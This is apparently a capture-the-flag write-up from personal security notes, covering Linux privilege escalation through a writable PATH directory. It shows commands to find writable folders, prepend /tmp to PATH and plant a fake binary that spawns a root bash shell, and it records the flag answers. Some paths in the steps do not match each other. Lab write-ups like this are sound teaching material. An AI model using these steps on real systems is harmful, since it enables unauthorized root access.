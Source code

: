 ## Privilege Escalation PATH

### Notes:
- exploiting path folders which we have write access to. 
- see if you have write access to PATH so you can add folders where you have write access to. 
  - binaries run in path are usually run under root privileges. 
  - copy binary in the folder indicated in path then run a binary containing "/bin/bash" to create a root enabled shell. 

### What is the odd folder you have write access for?
1. Run the following command to find write acccess for your user. 

```
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u 
```

Running it doesn't produce the answer we need let's go 1 level deeper: 
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

![Screenshot 2024-02-09 at 8 08 11 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5fccce0a-4d79-4844-b615-9bb3889e477b)



**Answer: home/murdock**


### What is the content of the flag6.txt file?
1. First run the following to see the path:
```
echo $PATH
```
![Screenshot 2024-02-09 at 9 22 52 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/0711b158-15d7-4175-b250-6ff42a25ad1a)

2. Let's see if we have any write permissions in any of the $PATH directories.
```
find / -writable  2>/dev/null | cut -d "/" -f 2,3,4 | grep usr | sort -u
```
![Screenshot 2024-02-09 at 9 45 36 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/a296eb75-af03-4ba2-b1c1-4ab7b0fa3fe4)

3. Unfortunately the writable usr/lib/systemd is not included in the path.
4. We will append /tmp in the PATH by running the following command:
```
export PATH=/tmp:$PATH
```
5. Execute the following command:
```
cd /tmp
echo "/bin/bash" > thm
chmod 777 thm
```

6. Execute the following which will grant you a root access bash terminal
```
cd /home/murdoch/
/.test
```

7. Execute `cat /home/matt/flag6.txt`
![Screenshot 2024-02-09 at 11 13 47 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d2949442-0b6c-4613-81cd-e560d6d72012)

**Answer: THM-736628929**

